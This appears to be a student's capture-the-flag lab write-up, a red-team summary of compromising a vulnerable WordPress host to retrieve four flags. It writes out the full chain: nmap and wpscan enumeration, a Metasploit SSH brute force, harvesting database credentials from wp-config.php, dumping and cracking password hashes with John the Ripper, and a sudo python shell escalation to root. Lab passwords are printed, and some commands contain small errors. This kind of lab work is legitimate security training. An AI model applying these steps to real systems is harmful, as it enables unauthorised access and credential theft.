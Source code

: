 ## Red Team: Summary of Operations

Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation

Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

* Target 1
	- Port 22/TCP SSH
	- Port 80/TCP http
	- Port 111/TCP rpcblind
	- Port 139/TCP netbios -ssn
	- Port 445/TCP netbios -ssn

The following vulnerabilities were identified on each target:

* Target 1
	- Wordpress enumeration
	- Improper use of SSH
	- Weak user password
	- Misconfigure use of privilege escalation

Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

* Target 1
	- flag1.txt: b9bbcb33e11b80be759c4e844862482d
		- Exploit Used
			- Used wpscan to enumerate the user from the      wordpress website
			- wpscan –url http://192.168.1.110/wordpress -enumerate u


			- Used SSH scanner module on Metasploit to brute force login attempts with the username and Michael and wordlists from Kali
			- Msfconsole
			- Use auxiliary/scanner/ssh/ssh_login
			- options
			- set Rhosts 192.168.1.110, 
			- set PASS_File /usr/share/wordlists/rockyou.txt,
			- set USERNAME Michael
			- set VERBOSE true
			- run




			- I then login into Michael via SSH 
			- SSH michael@192.168.1.110 password: michael

			- I then went into the html directory and listed the directories in it
			- cd /var/www/html
			- ls

			- I then went into the service.html file and found flag1.
			- nano service.html
			-  ctrl+w “flag”

	- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
		- Exploit Used
			- I went back one directory and listed the files and found flag 2
			- cd ..
			- ls
			- cat flag2.txt

	- flag3.txt: afc01ab56b50591e7dccf93122770cd2
		- Exploit Used
			- I went back to the html directory and went into the wordpress directory and listed the directories
			- cd html
			- cd wordpress

			- I then went into the wp-config file and found the password for sql login
			- Nano wp-config.php


			- I logged in via sql
			- mysql -u root -P password: R@v3nSecurity

			- I then viewed the databases then viewed the tables
			- show databases;
			- show tables;


			- I then selected wp_posts and was able to find flag3
			- select * from wp_posts;


	- Flag4.txt: 715dea6c055b9fe3337544932f2941ce
		- Exploit Used
			- While still being logged in via sql I described the table wp_users
			- describe wp_users;

			- I then formatted the username and passwords being separated by a colon sign.
			- select concat_ws(‘:’, user_login, user_pass) from wp_users;

			- I then outputted the formatted table into text file in the www directory and then viewed the file under michael
			- select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘var/www/wp_hashes.txt’;
			- cat wp_hashes.txt

			- I copied wp_hashes.txt file and exited Michael’s computer and pasted the file on www directory on my pc
			- “copied username and passwords”
			- Exit
			- cd /var/www
			- ls
			- touch wp_hashes.txt
			- nano wps_hashes.txt
			- “pasted username and passwords”






			- I ran john the ripper to brute force the password with the usernames and found the password for steven
			- John wp_hashes.txt

			- I logged into Steven via ssh 
			- ssh steven password:pink84

			- I ran a python command to login via root
			- sudo python -c ‘import pty:pty.spawn(“/bin/bash”)’

			- I then went into the root directory I ran the list command and found flag 4 and then I viewed the flag
			- cd /root
			- ls
			- cat flag4.txt


